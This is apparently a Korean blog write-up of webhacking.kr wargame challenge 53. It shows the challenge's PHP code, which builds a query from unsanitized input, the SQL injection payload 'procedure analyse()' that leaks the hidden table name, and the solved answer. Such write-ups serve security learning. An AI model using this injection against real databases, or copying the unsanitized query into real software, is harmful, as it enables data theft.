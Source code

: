 ```yaml
---
title: "[webhacking.kr] 53번 문제 풀이[Procedure analyse]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
toc: true
toc_sticky: true
toc_label: "53번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
---
```


💡 Webhacking.kr challenge(old) 53번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ```php
<?php
  $db = dbconnect();
  include "./tablename.php";
  if($_GET['answer'] == $hidden_table) solve(53);
  if(preg_match("/select|by/i",$_GET['val'])) exit("no hack");
  $result = mysqli_fetch_array(mysqli_query($db,"select a from $hidden_table where a={$_GET['val']}"));
  echo($result[0]);
?>
  ```

  $hidden_table을 알아내는 문제입니다.


# procedure analyse()
  이번 문제는 procedure analyse() 함수를 이용하는 문제입니다. 저는 사전에 해당 함수를 알고 있었기 떄문에 바로 이용해서 풀었습니다. 하지만 해당 함수는 mysql 8.0버전이 되면서 사라졌기 때문에 제 로컬 db에서는 테스트를 못해봤습니다.

  ![image](https://user-images.githubusercontent.com/33647663/153139568-d0bb0ab1-cb07-4ca9-98d5-81742177ab98.png)

  mysql 8.0이 2018년에 나왔으니 사라진지는 꽤 되었는데 문제가 오래되었다 보니 있는 문제 같습니다.

  mysql의 버전에 대한 정보는 [링크](https://www.codetd.com/ko/article/7307144)에서 읽어보시면 됩니다.

  바로 문제를 풀어보겠습니다.
  ```
  ?val=1 procedure analyse()
  ```

  ![image](https://user-images.githubusercontent.com/33647663/153140000-d3419e81-8662-4365-a737-0eec44922398.png)

  차례대로 DB명.테이블명.컬럼명 이렇게 구성되어 출력됩니다.
  따라서 테이블 명은 ```chall53_755fdeb36d873dfdeb2b34487d50a805```입니다.


  ![image](https://user-images.githubusercontent.com/33647663/153140095-efe3464d-f443-468d-b6fb-8a10137897c7.png)

  